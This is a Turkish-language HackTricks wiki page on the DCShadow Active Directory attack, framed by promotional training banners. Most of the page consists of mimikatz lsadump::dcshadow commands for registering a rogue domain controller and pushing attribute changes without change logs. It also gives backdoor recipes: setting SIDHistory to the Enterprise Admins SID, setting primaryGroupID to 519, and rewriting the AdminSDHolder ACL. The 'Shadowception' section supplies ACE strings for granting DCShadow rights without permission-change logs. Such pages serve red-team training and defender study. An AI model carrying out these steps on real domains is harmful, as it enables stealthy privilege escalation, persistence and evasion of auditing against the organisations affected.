 {% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}


# DCShadow

AD'de **yeni bir Domain Controller** kaydeder ve belirtilen nesnelerde **değişiklikler** ile ilgili herhangi bir **log** bırakmadan **atributları** (SIDHistory, SPNs...) **itmek** için kullanır. **DA** ayrıcalıklarına sahip olmanız ve **root domain** içinde olmanız gerekir.\
Yanlış veri kullanırsanız, oldukça kötü loglar görünecektir.

Saldırıyı gerçekleştirmek için 2 mimikatz örneğine ihtiyacınız var. Bunlardan biri, burada gerçekleştirmek istediğiniz değişiklikleri belirtmeniz gereken SYSTEM ayrıcalıklarıyla RPC sunucularını başlatacak, diğeri ise değerleri itmek için kullanılacaktır:

{% code title="mimikatz1 (RPC sunucuları)" %}
```bash
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```
{% endcode %}

{% code title="mimikatz2 (push) - DA veya benzeri gerektirir" %}
```bash
lsadump::dcshadow /push
```
{% endcode %}

**`elevate::token`**'ın `mimikatz1` oturumunda çalışmayacağını unutmayın, çünkü bu iş parçacığının ayrıcalıklarını yükseltti, ancak **işlemin ayrıcalığını** yükseltmemiz gerekiyor.\
Ayrıca bir "LDAP" nesnesi seçebilirsiniz: `/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local`

Değişiklikleri bir DA'dan veya bu minimum izinlere sahip bir kullanıcıdan gönderebilirsiniz:

* **alan nesnesinde**:
* _DS-Install-Replica_ (Alan içinde Replica Ekle/Kaldır)
* _DS-Replication-Manage-Topology_ (Replikasyon Topolojisini Yönet)
* _DS-Replication-Synchronize_ (Replikasyon Senkronizasyonu)
* **Yapılandırma konteynerindeki** **Siteler nesnesi** (ve çocukları):
* _CreateChild and DeleteChild_
* **DC olarak kaydedilen** **bilgisayar nesnesi**:
* _WriteProperty_ (Yazma Değil)
* **hedef nesne**:
* _WriteProperty_ (Yazma Değil)

Bu ayrıcalıkları ayrıcalıksız bir kullanıcıya vermek için [**Set-DCShadowPermissions**](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1) kullanabilirsiniz (bu bazı günlükler bırakacaktır). Bu, DA ayrıcalıklarına sahip olmaktan çok daha kısıtlayıcıdır.\
Örneğin: `Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose`  Bu, _**mcorp-student1**_ makinesinde oturum açtığında _**student1**_ kullanıcı adının _**root1user**_ nesnesi üzerinde DCShadow izinlerine sahip olduğu anlamına gelir.

## DCShadow Kullanarak Arka Kapılar Oluşturma

{% code title="SIDHistory'de Enterprise Admins'i bir kullanıcıya ayarlama" %}
```bash
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519
```
{% endcode %}

{% code title="PrimaryGroupID'yi Değiştir (kullanıcıyı Domain Administrators üyesi yap)" %}
```bash
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```
{% endcode %}

{% code title="AdminSDHolder'ın ntSecurityDescriptor'ını Değiştir (bir kullanıcıya Tam Kontrol Ver)" %}
```bash
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```
{% endcode %}

## Shadowception - DCShadow izinlerini DCShadow kullanarak verin (değiştirilmiş izin günlükleri yok)

Aşağıdaki ACE'leri kullanıcının SID'si ile birlikte eklememiz gerekiyor:

* Alan nesnesinde:
* `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)`
* `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* Saldırgan bilgisayar nesnesinde: `(A;;WP;;;UserSID)`
* Hedef kullanıcı nesnesinde: `(A;;WP;;;UserSID)`
* Yapılandırma konteynerindeki Siteler nesnesinde: `(A;CI;CCDC;;;UserSID)`

Bir nesnenin mevcut ACE'sini almak için: `(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=local")).psbase.ObjectSecurity.sddl`

Bu durumda **birden fazla değişiklik** yapmanız gerektiğini unutmayın, sadece bir tane değil. Bu nedenle, **mimikatz1 oturumu** (RPC sunucusu) içinde yapmak istediğiniz her değişiklik için **`/stack`** parametresini kullanın. Bu şekilde, tüm sıkışmış değişiklikleri sahte sunucuda gerçekleştirmek için yalnızca bir kez **`/push`** yapmanız gerekecek.



[**DCShadow hakkında daha fazla bilgi için ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)


{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
